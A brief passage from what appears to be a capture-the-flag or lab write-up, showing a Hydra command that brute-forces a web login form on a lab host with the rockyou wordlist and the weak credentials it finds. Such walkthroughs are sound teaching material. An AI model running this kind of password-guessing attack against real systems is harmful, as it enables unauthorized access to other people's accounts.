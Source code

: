 ```bash
hydra -l zac -P /usr/share/wordlists/rockyou.txt 10.10.20.176 https-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials." -s 8080
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



We can see that credentials are:

```
zac:zac
```

Once we go into the login page, we can see this:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
